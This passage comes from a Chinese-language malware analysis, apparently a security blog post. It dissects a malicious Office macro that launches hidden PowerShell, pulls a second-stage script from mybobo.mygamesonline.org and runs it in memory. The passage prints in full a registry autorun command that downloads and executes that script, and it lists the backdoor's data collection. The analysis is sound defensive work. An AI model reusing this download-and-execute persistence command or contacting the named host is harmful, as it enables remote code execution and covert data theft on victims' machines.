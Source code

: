 [![](https://p1.ssl.qhimg.com/dm/1024_536_/t016f252cd30c2a4490.png)](https://p1.ssl.qhimg.com/dm/1024_536_/t016f252cd30c2a4490.png)

#### <a class="reference-link" name="0x02%20%E6%81%B6%E6%84%8F%E5%AE%8F%E5%88%86%E6%9E%90"></a>0x02 恶意宏分析

利用`olevba`工具提取的宏代码如下:

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/dm/1024_670_/t01ba4e96fe7558e25d.png)

**显示文档的内容:**

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t016a2b315692adc8b9.png)

隐藏执行`powershell.exe`代码读取`%TEMP%bobo.txt`的内容,并且使用`iex`执行

[![](https://p4.ssl.qhimg.com/dm/1024_118_/t013846db78fc3f2a12.png)](https://p4.ssl.qhimg.com/dm/1024_118_/t013846db78fc3f2a12.png)

`Bobo.txt`内容

[![](https://p0.ssl.qhimg.com/t0120f27d1b31c5ba6c.png)](https://p0.ssl.qhimg.com/t0120f27d1b31c5ba6c.png)

从`http://mybobo.mygamesonline.org/flower01/flower01.ps1`上下载第二段`powershell`载荷`flower01.ps1`并且利用`iex`内存执行

第二段`powershell`载荷如图所示:

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/dm/1024_517_/t012737ee8f1ca65d74.png)

#### <a class="reference-link" name="0x03%20%E6%81%B6%E6%84%8Fpowershell%E5%88%86%E6%9E%90"></a>0x03 恶意powershell分析

Powershell后门配置信息:

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/dm/1024_217_/t01b4538f7ce9d8faa2.png)

写入注册表启动项,键名: `Alzipupdate`,键值:

```
cmd.exe /c powershell.exe -windowstyle hidden IEX (New-Object System.Net.WebClient).DownloadString('http://mybobo.mygamesonline.org/flower01/flower01.ps1')
```

开机启动就远程执行本ps1文件

[![](https://p5.ssl.qhimg.com/dm/1024_141_/t01fd98c67b7a7dcb3d.png)](https://p5.ssl.qhimg.com/dm/1024_141_/t01fd98c67b7a7dcb3d.png)

收集信息:**最近使用的项目(文件),%ProgramFiles%以及C:Program Files (x86)下的文件,系统信息,当前进程信息**
